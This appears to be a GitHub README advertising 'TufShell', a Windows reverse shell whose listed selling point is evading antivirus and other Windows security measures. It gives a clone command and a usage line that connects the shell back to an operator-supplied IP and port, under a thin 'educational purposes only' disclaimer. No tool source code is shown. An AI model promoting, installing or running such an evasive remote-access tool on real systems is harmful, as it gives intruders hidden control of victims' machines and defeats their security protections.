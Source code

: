 # TufShell - Reverse Shell
![Nimetön(5)](https://user-images.githubusercontent.com/112339903/228006692-dbb18207-ad2b-4e0c-827f-77bc5c1e99a1.png)
<h1>CURRENTLY NOT UNDETECTED, UPDATING</h1>
<h1>What is it?</h1>
TufShell is a Windows Reverse Shell that is designed to bypass Windows security measures and stay undetected. It has been thoroughly tested on Windows 11, but it isn't guaranteed to work on all versions of Windows. Leave a comment if it worked on different machine.
<h2>Features</h2>
    <strong>Undetected</strong>: TufShell is designed to stay undetected by Windows security measures, including antivirus software.<br>
    <strong>Easy to Use</strong>: TufShell is designed to be easy to use, with a simple command line interface.<br>
    <strong>Reliable</strong>: TufShell is a reliable reverse shell that works every time.
    <strong>Cross-platform</strong>: TufShell Server is cross-platform, which means that it can be used on both Windows and Linux systems.
<h2>Installation</h2>
git clone https://github.com/3ngine/tufshell.git
<h2>Usage</h2>
python tufshell.py --ip YOUR_IP --port PORT
<h2>Disclaimer</h2>

This tool is designed for educational purposes only. The author of this tool is not responsible for any damage caused by the use of this tool. It is the user's responsibility to use this tool ethically and in compliance with all applicable laws and regulations. Keep in mind that TufShell is still under development.
![reverse_shell](https://user-images.githubusercontent.com/112339903/228022732-4b495526-082b-4f17-853f-d92f47dd3f9c.png)
